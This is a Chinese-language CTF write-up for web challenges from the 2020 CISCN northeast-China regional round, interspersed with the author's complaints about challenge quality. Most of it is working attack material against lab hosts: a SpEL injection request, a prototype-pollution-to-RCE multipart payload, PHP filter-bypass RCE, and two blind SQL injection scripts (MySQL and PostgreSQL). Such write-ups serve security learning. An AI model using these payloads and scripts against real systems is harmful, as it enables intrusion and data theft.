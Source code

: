 ```yaml
---
title: 2020 CISCN 华东北赛区 WEB Writeup
date: 2020-09-19 22:14:55
tags: [web, ctf]
---
```


一共 6 题 WEB, 我一个人拿了 4 个一血, 还有一题全场 0 解. 然而没有 pwn 爷爷依旧被吊打, 而且题目质量是真的差, 明年再打国赛我是傻逼.

<!-- more -->

## web3

http://172.20.29.103:80/flag.php 直接返回 flag. 你们赛宁没有题目复审的么?

## web4

随便 fuzz 根据报错得知是 sepl，构造 payload T%00 绕过过滤直接读文件即可, fix 的时候给看源码, 发现出题人正则写成了 `"T\\\\x00"`, 应该是想到了要过滤的, 你们赛宁没有题目复审的么? x2
```
POST / HTTP/1.1
Host: 172.20.29.104:8080
Content-Length: 91
Cache-Control: max-age=0
Origin: http://172.20.29.104:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.20.29.104:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,en;q=0.7
Connection: close

expr=T%00(java.nio.file.Files).readAllLines(T%00(java.nio.file.Paths).get%00('/flag.txt')) 
```

## web7

扫出来只有 static 文件夹，根据 server header 得知服务器用的 nginx，同时存在配置错误，可以目录穿越读取文件.  
http://172.20.29.107/static../app.js, 在源码中发现使用了 `express-fileupload` ，存在原型链污染，可以结合 ejs 利用，直接 rce

```
POST /4_pATh_y0u_CaNN07_Gu3ss HTTP/1.1
Host: 172.20.29.107
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 263
Content-Type: multipart/form-data; boundary=------------------------a4826c30ee705335
Connection: close

--------------------------a4826c30ee705335
Content-Disposition: form-data; name="__proto__.outputFunctionName"

_tmp1;global.process.mainModule.require('child_process').exec('cat /flag.txt > flag.txt');var __tmp2
--------------------------a4826c30ee705335--
```
然后读取 http://172.20.29.107/static../flag.txt 即可

## web2

robots.txt 得到 hint.txt, 可以得到 sql 语句， 根据其特性，用 \ 来注入， 之后绕 waf 注入出密码，登陆后得到 c2ZtdHFs.php, 
```python
import requests
import string

sess = requests.session()
url = 'http://172.20.29.102/'

flag = '0x5e'
table = string.ascii_letters + '_' + string.digits
table = [ord(i) for i in table]
raw_flag = ''
for _ in range(100):
    for i in table:
        t = flag + hex(i)[2:].rjust(0, '2')
        #print(t)
        data = {
            'username': '\\',
            'password': '||password/**/regexp/**/binary/**/%s#' % t
        }

        res = sess.post(url, data)
        if 'success' in res.text:
            #print(chr(i))
            flag += hex(i)[2:].rjust(0, '2')
            print(flag)
            raw_flag += chr(i)
            print(raw_flag)
            break

    if i == table[-1]:
        print('WARNGIN')
```

用 & 绕一下过滤，即可 rce
```
GET /c2ZtdHFs.php?gzmtu=(sysuem%26sysvem)((currenu%26currenv)((weucmmhecders%26oevennheeders)())) HTTP/1.1
A: cat /flag.txt
Host: 172.20.29.102

```

## web5

pgsql 注入，双写绕过 select，之后熟悉下语法写脚本注入后登陆就有 flag
```python
import requests
import string

sess = requests.session()
url = 'http://172.20.29.105/index.php'

def to_chr(inp):
    ret = ''
    for i in inp:
        ret += f"||chr({ord(i)})"
    return ret

table = string.ascii_letters + string.digits + '_.-'
flag = ''
table = string.printable
table = [ord(i) for i in table]
query = 'selselectect/**/password/**/from/**/users/**/limit/**/1/**/OFFSET/**/0'

for _ in range(100):
    for i in table:
        t = to_chr(flag) + f'||chr({i})'
        t = t[2:]

        data = {
            'username': 'admin',
            'password': "admin'/**/or/**/'1'/**/and/**/cast(position(%s/**/in/**/(%s))/**/as/**/bool)/**/and/**/'1" % (t, query)
        }

        res = sess.post('http://172.20.29.105/index.php', data=data)
        #print(res.text)
        if 'hacker' in res.text:
            print('hacker')

        if 'Too Young Too Simple' in res.text:
            flag += chr(i)
            print(flag)
            break
        if i == table[-1]:
            print('WARNNING')

            for _ in range(100):
                for i in table:
                    t = f'||chr({i})' + to_chr(flag)
                    t = t[2:]
                    data = {
                        'username': 'admin',
                        'password': "admin'/**/or/**/'1'/**/and/**/cast(position(%s/**/in/**/(%s))/**/as/**/bool)/**/and/**/'1" % (
                        t, query)
                    }

                    res = sess.post('http://172.20.29.105/index.php', data=data)
                    # print(res.text)
                    if 'hacker' in res.text:
                        print('hacker')

                    if 'Too Young Too Simple' in res.text:
                        flag = chr(i) + flag
                        print(flag)
                        break
                    if i == table[-1]:
                        print('WARNNING')
```

## web6

这题目能把人气笑, 全场 0 解, 最后发现放了个 ssrf.php, 无任何提示, 就硬猜, 而且里面的过滤写成了 `/file:|http://|php/`, 这是过滤了个锤子, 你们赛宁没有题目复审的么? x3
